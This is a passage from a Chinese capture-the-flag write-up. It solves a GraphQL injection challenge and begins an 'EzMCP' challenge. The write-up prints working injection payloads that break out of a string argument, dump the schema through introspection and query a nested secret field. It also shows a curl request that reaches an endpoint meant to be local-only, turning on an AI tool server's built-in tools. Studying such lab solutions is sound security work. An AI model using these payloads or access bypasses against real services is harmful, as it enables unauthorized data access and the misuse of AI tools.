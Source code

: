 注意需要设置查询别名来把后续的语句无效化，之后得到 `flag{pleAsE_uSE_vaRIaBLEs_In_GrAPHQl_LIKE_prePaRed_stateMenTs_In_sql}`。

#### Flag 2】并抢了【你的

第二问的难度在于如何知道 flag2 在哪里，因为被狠狠地嵌套在深处了，首先需要知道这个数据库里面的所有数据。网上搜一下如何注入就可以发现，他们教程上来就会让暴露所有字段，我们这里把回显放在用户名里面，也就是：

```text
a"){
   login: __schema{
      ok: queryType{name}
      isAdmin: queryType{name}
      username: types{
         name
         fields{
            name
            type {
               name
            }
         }
      }
   }
other: #"
```

注意一下需要登录成功，但是 python 的判断里面写的并没有严格要求为 `True`，任意非空类型都可以，这边随便选个 object 即可。第二步，需要用查到的数据来找到查询路径，DFS 或者 BFS 就好，但是我懒得写，这种简单代码就该交给 AI，它给我的代码成功允许后，直接构造最终查询：

```text
a"){
   login: secret {
      ok: __typename
      isAdmin: __typename
      username: secret_rkRi{secret_7wB8{secret_1V0Q{secret_HWuR{secret_qXGM{secret_snAI{secret_f7Du{flag2}}}}}}}
   }
other: #"
```

最终得到 `flag{eVeRYOne_Can_SeE_Your_GraphQL_SchEMa}`。

### EzMCP

> 本题在二阶段做出。

#### Flag1 之 AI 带师

放完提示后我才发现这是一道可以非常简单地非预期做出的题目，气晕过去了，看着是个我完全不了解的东西所以我完全不想看，但凡多看一眼试一下大概就做出来了。

提示说环境出了问题导致本地校验没起效果，啊，这我熟啊，利用中间件转发后没在请求头里面设置，没在服务端里面修复代理问题，所以服务端拿到的 IP 就是本地的。

试了一下发现利用堡垒机是不可行的，貌似不通过中间件，那我一想，直接从我这边发过去就好了：

`curl -X POST https://prob06-pdmmbgg4.geekgame.pku.edu.cn/enable_builtin_tools`

很好，这样就打开了内置工具，接下来让大模型操作即可
